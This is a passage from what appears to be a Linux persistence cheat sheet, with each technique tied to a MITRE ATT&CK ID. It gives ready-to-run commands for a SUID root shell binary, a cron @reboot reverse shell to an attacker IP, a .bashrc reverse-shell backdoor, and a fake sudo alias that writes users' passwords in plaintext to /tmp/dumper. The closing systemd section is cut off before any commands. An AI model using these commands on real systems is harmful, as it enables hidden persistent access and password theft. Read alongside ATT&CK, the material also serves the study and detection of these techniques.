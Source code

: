 	root@victim$ echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $tempdir/suid00r.c
	root@victim$ gcc $tempdir/suid00r.c -o $tempdir/suid00r 2>/dev/null
	root@victim$ rm $tempdir/suid00r.c
	root@victim$ chown root:root $tempdir/suid00r
	root@victim$ chmod 4777 $tempdir/suid00r

## Creating cron job

[MITRE ID: T1053.003](https://attack.mitre.org/techniques/T1053/003/)

The crontab file contains a list of tasks that you wish to execute on a regular basis, as well as the name of the command that manages them. Crontab stands for "cron table," as it executes tasks using the cron job scheduler. 

Adversary can create a reverse shell that pointing to their C2 server using cron job upon reboot. Below is a simple example of bash reverse shell as for the PoC.

	$ Command:
	
	root@victim$ echo "@reboot sleep 120 && /bin/bash -l > /dev/tcp/$ATTACKERIP/4444 0<&1 2>&1"

## Creating .bashrc backdoor

[MITRE ID: T1546.004](https://attack.mitre.org/techniques/T1546/004/)

A bashrc file is a shell script file that Linux uses when starting up to load items like modules and aliases into user's profile. So, whenever an interactive session is launched, the .bashrc file will load the reverse shell pointing to the adversary C2 server.

	$ Command:
	
	victim@server$ echo "(setsid bash 1>&/dev/tcp/$ATTACKERIP/5555 0>&1 & ) 2>/dev/null" >> ~/.bashrc

## Creating .bashrc alias

[MITRE ID: T1546.004](https://attack.mitre.org/techniques/T1546/004/)

Same as .bashrc backdoor but it leverage linux alias. When we often need to use a single large command several times, we construct an alias for it.
Alias is a shortcut command that performs the same functions as if we typed the entire command. 

As for the PoC, we use `sudo` alias. Whenever the user type sudo command for example "`sudo netstat -plnt`", the sudo alias will load then asking for user's password and dump the plaintext password to the /tmp/dumper directory before the real sudo operation from `/usr/bin/sudo` spawn.

	$ Command:
	
	victim@server$ echo "alias sudo='echo -n "[sudo] password for "\$USER": " && read -r password && echo ""\$password"" >/tmp/dumper && /usr/bin/sudo \$@'" >> ~/.bashrc

## Creating systemd backdoor 

[MITRE ID: T1543.002](https://attack.mitre.org/techniques/T1543/002/)

For Linux operating systems, Systemd is a system and service manager. It includes capabilities such as parallel launch of system services at boot time, on-demand activation of daemons, and dependency-based service control logic, and is meant to be backwards compatible with SysV init scripts.
